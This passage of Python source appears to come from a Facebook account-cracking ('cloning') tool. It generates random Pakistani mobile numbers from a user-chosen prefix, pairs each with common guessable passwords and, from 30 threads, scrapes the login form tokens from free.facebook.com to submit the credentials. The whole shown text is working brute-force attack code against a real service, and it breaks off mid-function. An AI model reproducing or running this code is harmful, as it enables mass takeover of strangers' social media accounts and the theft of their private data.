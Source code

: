    
    os.getuid
    os.geteuid
    os.system("clear")
    print(logo)
    print(f"")
    clear()
    print(f"          \x1b[97m[\033[37;41m  C O D E    M E N U   \033[0;m]")
    print(f"")
    linex()
    print(f"        \x1b[97m[\033[95;42mEXAMPLE :👇\033[0;m]")
    print(f"")
    print(f" 0306 ,0300 ,0315 ,0333")
    print(f" 0341 ,0342 ,0345 ,0349")
    print(f" 0321 ,0316 ,0308 ,0309")
    print(f"")
    linex()
    print(f"\x1b[97m[\033[37;41mBEST CODE 0300 / 0302 / 0306 / 0349 /0315   \033[0;m]")
    print("")
    linex()
    code = input(' PUT CODE : ')
    os.system("clear")
    print(logo)
    print(f"")
    print(f"          \x1b[97m[\033[37;41m  L I M I T   M E N U   \033[0;m]")
    print(f"")
    limit = int(input(' EXAMPLE: 2000, 3000, 50000, 100000\n\n PUT CLONING LIMIT: '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    with ThreadPool(max_workers=30) as manshera:    
        clear()
        tl = str(len(user))
        print(f" {WHITE}TOTAL IDZ             : {BLUE}"+tl+" ~> [ SLOW 🐌]")
        print(f" {WHITE}COUNTRY YOU CHOOSE    : {GREEN}PAKISTAN 🇵🇰")
        print(f" {WHITE}NUMBER YOU PUT        : {YELLOW}"+code)
        print(f" {WHITE}TODAY DATE & TIME     :{RED} {ha}/{bu}/{ta} {ORANGE}~> {GREEN} "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
        print(f" {WHITE}TO STOP PROCESS PRESS Ctrl + Z ")
        print(f'{RED}==========================================================')
        for love in user:
            uid = code+love
            pwx = [love,code+love,'786786','123456','pakistan']
            manshera.submit(free,uid,pwx,tl)
def free(uid,pwx,tl):
    global loop
    global ok
    global agents
    try:
        for ps in pwx:
            bi = random.choice([A])
            session = requests.Session()
            pro = random.choice(ugen)
            free_fb = session.get('https://free.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
